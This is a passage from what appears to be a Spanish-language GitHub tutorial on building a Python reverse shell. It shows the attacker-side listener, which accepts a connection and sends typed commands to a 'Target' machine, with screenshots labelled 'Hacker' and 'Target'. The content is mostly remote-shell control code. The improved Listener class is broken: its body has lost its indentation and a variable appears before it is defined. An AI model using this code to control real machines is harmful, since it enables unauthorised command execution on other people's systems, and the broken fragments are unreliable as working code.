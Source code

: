  ```bash

print("[+] Esperando por conexiones") 

 
 

connection,addres = listener.accept() 

 
 

print("[+] Tenemos una conexion de {}".format(addres)) 

 
 

while True: 

        command = input("shell $") 

        connection.send(command.encode()) 

        result = connection.recv(1024) 

        print(result) 
 ```
 
# Ubuntu (Hacker)

![conexion establecida con listener](https://user-images.githubusercontent.com/97669969/157427835-65dd4277-6427-4100-9148-03d52ef7e252.png)


# Parrot (Target) 

![comandos parrot](https://user-images.githubusercontent.com/97669969/157428090-f9988f75-cd6b-4d9d-833d-2cfb17c7ddb6.png)
* Conexion establecida.




# MEJORA DE CODIGO EN LISTENER 

* listener.py 

 
```bash
import socket 

 
class Listener: 

 
 

    def __init__(self,ip, port): 

listener = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

listener.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1) 

listener.bind((ip,port)) 

listener.listen(0) 
```